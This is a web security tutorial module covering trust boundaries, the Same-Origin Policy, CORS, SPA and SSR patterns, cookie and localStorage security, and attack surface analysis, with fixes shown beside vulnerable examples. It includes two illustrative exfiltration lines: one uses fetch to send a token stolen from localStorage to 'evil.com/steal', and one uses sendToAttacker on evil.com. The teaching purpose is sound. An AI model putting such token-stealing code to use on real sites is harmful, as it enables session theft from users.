







# 🌐 Module 02: Web Architecture & Attack Surface

**Difficulty:** 🟢 Fundamentals  
**Time:** 60-90 minutes

---

## What You'll Learn

- How modern web architecture creates attack surface
- Trust boundaries in web applications
- The browser as a hostile environment
- Same-Origin Policy (SOP) and why it matters
- Modern web app patterns (SPA, SSR, API-first)
- Where security boundaries actually are

---

## The Modern Web Application Stack



**Each component is a potential attack surface.**

---

## Trust Boundaries in Web Apps

### What Is a Trust Boundary?

**A trust boundary is where data crosses from one security context to another.**

```typescript
// Trust boundaries in a simple request
app.post('/api/users', async (req, res) => {
  // 1. ← User data enters (UNTRUSTED → TRUSTED)
  const { username, email } = req.body;
  
  // 2. ← Database query (TRUSTED → TRUSTED)
  const user = await db.users.create({ username, email });
  
  // 3. → Response sent (TRUSTED → UNTRUSTED)
  res.json({ id: user.id });
});
```

### Common Trust Boundaries

1. **Client → Server** (user input)
2. **Server → Database** (SQL injection risk)
3. **Server → External API** (SSRF risk)
4. **Server → Client** (XSS risk)
5. **Frontend → Backend** (authentication/authorization)

**Key principle:** Never trust data crossing a boundary.

---

## The Browser Is a Hostile Environment

### Reality Check

**Everything in the browser is controlled by the attacker.**

```javascript
// Frontend "validation" — completely bypassable
function submitForm() {
  if (amount < 0) {
    alert("Amount must be positive!");
    return;
  }
  
  fetch('/api/transfer', {
    method: 'POST',
    body: JSON.stringify({ amount })
  });
}
```

**Attacker can:**
- Open browser DevTools
- Call `fetch()` directly with any data
- Modify JavaScript before execution
- Replay/modify requests with Burp Suite

**Mitigation:** Validate everything on the server.

```typescript
// Backend validation — the only validation that matters
app.post('/api/transfer', (req, res) => {
  const { amount } = req.body;
  
  if (typeof amount !== 'number' || amount <= 0) {
    return res.status(400).json({ error: 'Invalid amount' });
  }
  
  // Process transfer...
});
```

---

## Same-Origin Policy (SOP)

### What Is It?

**The Same-Origin Policy is the browser's fundamental security boundary.**

**Two URLs have the same origin if:**
- Protocol (scheme) matches
- Domain matches
- Port matches

### Examples

| URL 1 | URL 2 | Same Origin? |
|-------|-------|--------------|
| `https://example.com` | `https://example.com/api` | ✅ Yes |
| `https://example.com` | `http://example.com` | ❌ No (protocol) |
| `https://example.com` | `https://api.example.com` | ❌ No (subdomain) |
| `https://example.com:443` | `https://example.com:8080` | ❌ No (port) |

---

### Why SOP Exists

**Without SOP:**

```javascript
// Evil site: evil.com
// User is also logged into bank.com

fetch('https://bank.com/api/account')
  .then(res => res.json())
  .then(data => {
    // evil.com can now read your bank account!
    sendToAttacker(data);
  });
```

**With SOP:**
- Browser blocks cross-origin requests by default
- `evil.com` cannot read responses from `bank.com`

---

### What SOP Allows

✅ Navigate to cross-origin URLs  
✅ Embed cross-origin resources (``, `<script>`, `<iframe>`)  
✅ Submit forms to cross-origin URLs

### What SOP Blocks

❌ Reading cross-origin responses (fetch, XHR)  
❌ Accessing cross-origin DOM  
❌ Accessing cross-origin cookies/localStorage

---

### SOP Bypass: CORS

**Cross-Origin Resource Sharing (CORS)** allows controlled SOP relaxation.

```typescript
// Server explicitly allows example.com to access API
app.use((req, res, next) => {
  res.setHeader('Access-Control-Allow-Origin', 'https://example.com');
  res.setHeader('Access-Control-Allow-Methods', 'GET, POST');
  res.setHeader('Access-Control-Allow-Headers', 'Content-Type');
  next();
});
```

**More on CORS in Module 03.**

---

## Modern Web Architecture Patterns

### 1. Traditional Server-Side Rendering (SSR)



**Security characteristics:**
- ✅ Server controls all rendering
- ✅ No client-side state exposure
- ❌ Still vulnerable to XSS if not escaped properly
- ❌ CSRF risk on state-changing requests

**Example (Express + EJS):**
```typescript
app.get('/profile', async (req, res) => {
  const user = await db.users.findById(req.session.userId);
  res.render('profile', { user });  // Server renders HTML
});
```

---

### 2. Single-Page Application (SPA)



**Security characteristics:**
- ❌ Entire app runs in hostile environment (browser)
- ❌ API tokens stored in localStorage/sessionStorage (XSS risk)
- ❌ Larger attack surface (more client-side code)
- ✅ Clearer separation of concerns (API vs UI)

**Example (React):**
```typescript
function Profile() {
  const [user, setUser] = useState(null);
  
  useEffect(() => {
    fetch('/api/profile', {
      headers: { 'Authorization': `Bearer ${localStorage.getItem('token')}` }
    })
      .then(res => res.json())
      .then(setUser);
  }, []);
  
  return <div>{user?.name}</div>;
}
```

---

### 3. API-First Architecture



**Security characteristics:**
- ✅ Consistent security model across clients
- ❌ API becomes the primary attack surface
- ❌ Requires strong authentication/authorization
- ❌ Rate limiting essential

---

### 4. Server-Side Rendering with Hydration (SSR + SPA)

**Examples:** Next.js, Nuxt.js, SvelteKit



**Security characteristics:**
- ✅ Best of both worlds (SEO + interactivity)
- ❌ Most complex to secure (two rendering contexts)
- ❌ Easy to leak server-side secrets to client

**Common mistake:**
```typescript
// Server-side code
export async function getServerSideProps() {
  return {
    props: {
      apiKey: process.env.SECRET_API_KEY  // ← LEAKED TO CLIENT!
    }
  };
}
```

---

## Frontend vs Backend: Where to Trust

### Golden Rule

**Never trust the frontend with:**
- ❌ Authentication
- ❌ Authorization
- ❌ Business logic
- ❌ Validation (as sole mechanism)
- ❌ Secrets

**Frontend is for:**
- ✅ User experience
- ✅ Client-side validation (UX, not security)
- ✅ Presenting data
- ✅ Capturing user input

---

### Example: E-commerce Cart

**❌ Wrong (frontend calculation):**
```typescript
// Frontend
function checkout() {
  const total = cartItems.reduce((sum, item) => sum + item.price, 0);
  
  fetch('/api/checkout', {
    method: 'POST',
    body: JSON.stringify({ total })  // ← Attacker can modify this!
  });
}
```

**✅ Correct (backend calculation):**
```typescript
// Frontend
function checkout() {
  fetch('/api/checkout', {
    method: 'POST',
    body: JSON.stringify({ 
      items: cartItems.map(i => ({ id: i.id, quantity: i.quantity }))
    })
  });
}

// Backend
app.post('/api/checkout', async (req, res) => {
  const { items } = req.body;
  
  // Calculate total on server (trusted)
  let total = 0;
  for (const item of items) {
    const product = await db.products.findById(item.id);
    total += product.price * item.quantity;
  }
  
  // Process payment with server-calculated total
  await processPayment(total);
  res.json({ success: true });
});
```

---

## Attack Surface Analysis

### Example Application: Social Media Platform



### Entry Points (Attack Surface)

| Component | Entry Point | Risk |
|-----------|-------------|------|
| **API Gateway** | All HTTP endpoints | High |
| **Auth Service** | Login, signup, password reset | Critical |
| **Post Service** | Create, edit, delete posts | High |
| **User Service** | Profile updates | Medium |
| **Media Service** | File uploads | Critical |
| **Admin Panel** | All admin functions | Critical |

---

### Attack Vectors by Component

#### API Gateway
- Path traversal (`/api/../admin`)
- Rate limiting bypass
- Header injection
- Request smuggling

#### Auth Service
- Credential stuffing
- Session hijacking
- JWT forgery
- OAuth bugs

#### Post Service
- XSS in post content
- IDOR (access others' posts)
- SQL injection

#### Media Service
- Malicious file upload
- Path traversal
- XXE (XML External Entity)
- Zip bombs

---

## APIs as Public Interfaces

### The Danger

**APIs are meant to be called by anyone who can reach them.**

Even "internal" APIs can be attacked if:
- Exposed to the internet
- Accessible from compromised client
- Discoverable through leaked docs

---

### Example: "Hidden" Admin Endpoint

```typescript
// Developer thinks this is "hidden"
app.delete('/api/internal/users/:id', async (req, res) => {
  await db.users.delete(req.params.id);
  res.json({ success: true });
});
```

**Problem:** No authentication! Anyone who discovers this URL can delete users.

**How attackers find it:**
- Scanning common paths
- Analyzing client-side code
- Reading leaked documentation
- Brute-forcing endpoints

**Fix:**
```typescript
app.delete('/api/internal/users/:id', 
  requireAuth,        // ← Verify authentication
  requireRole('admin'), // ← Verify authorization
  async (req, res) => {
    await db.users.delete(req.params.id);
    res.json({ success: true });
  }
);
```

---

## Cookies, LocalStorage, and SessionStorage

### Storage Options

| Storage | Accessible by JS? | Sent with Requests? | Survives Page Refresh? | Survives Browser Close? |
|---------|-------------------|---------------------|------------------------|-------------------------|
| **Cookie** | Yes (unless HttpOnly) | Yes (automatically) | Yes | Yes (unless session cookie) |
| **LocalStorage** | Yes | No | Yes | Yes |
| **SessionStorage** | Yes | No | Yes | No |

---

### Security Implications

#### Cookies
```typescript
// Insecure cookie
res.cookie('session', token);

// Secure cookie
res.cookie('session', token, {
  httpOnly: true,   // ← Not accessible by JavaScript (XSS protection)
  secure: true,     // ← Only sent over HTTPS
  sameSite: 'strict' // ← CSRF protection
});
```

#### LocalStorage
```javascript
// Vulnerable to XSS
localStorage.setItem('token', 'abc123');

// If XSS exists, attacker can:
const stolen = localStorage.getItem('token');
fetch('https://evil.com/steal?token=' + stolen);
```

**Recommendation:** Use HttpOnly cookies for sensitive tokens.

---

## Real-World Attack Surface Example

### Case Study: URL Shortener

**Features:**
- Shorten URLs
- Track clicks
- Custom aliases
- QR code generation

**Attack surface analysis:**

```typescript
// 1. URL shortening endpoint
app.post('/api/shorten', async (req, res) => {
  const { url, alias } = req.body;
  
  // Threats:
  // - SSRF: shortened URL points to internal IPs
  // - Open redirect: shortened URL redirects to phishing site
  // - Alias collision: overwrite existing short URLs
  // - NoSQL injection in alias parameter
});

// 2. Redirect endpoint
app.get('/:alias', async (req, res) => {
  const shortUrl = await db.findByAlias(req.params.alias);
  
  // Threats:
  // - Open redirect (no validation of target URL)
  // - Click tracking leaks referrer
});

// 3. QR code generation
app.get('/api/qr/:alias', async (req, res) => {
  const { alias } = req.params;
  const qr = generateQR(alias);
  
  // Threats:
  // - Path traversal in alias
  // - Resource exhaustion (large QR codes)
});
```

---

## Mitigations by Layer



**Defense in depth:** Multiple layers protect against single-point failures.

---

## Summary

1. **Browsers are hostile** — never trust client-side code
2. **Same-Origin Policy** protects against cross-origin attacks
3. **Trust boundaries** are where security bugs happen
4. **Frontend is for UX**, backend is for security
5. **APIs are public interfaces** — treat them as such
6. **Modern web apps** have complex attack surfaces
7. **Defense in depth** — multiple security layers

---

## Exercises

### Exercise 1: Identify Trust Boundaries
Review a project you've worked on:
- Draw the architecture
- Mark all trust boundaries
- Where is user input entering?
- Where is data being rendered?

### Exercise 2: Browser DevTools Attack
1. Open your favorite web app
2. Open DevTools → Application → LocalStorage
3. Modify any stored data
4. Reload the page
5. What broke? What security assumptions were violated?

### Exercise 3: SOP Testing
```html
<!-- Save as test.html and open in browser -->
<script>
  fetch('https://api.github.com/users/octocat')
    .then(res => res.json())
    .then(data => console.log('Success:', data))
    .catch(err => console.error('SOP blocked:', err));
</script>
```

Did it work? Why or why not?

---

## What's Next?

Now that you understand web architecture and attack surfaces, let's dive deep into HTTP security mechanisms.

→ **Next: [Module 03: HTTP Security (Deep, Practical)](../03-http-security/01-http-fundamentals.md)**

---

## Further Reading

- [MDN: Same-Origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)
- [OWASP: Attack Surface Analysis](https://owasp.org/www-community/Attack_Surface_Analysis_Cheat_Sheet)
- *The Tangled Web* by Michal Zalewski (chapter on browser security)
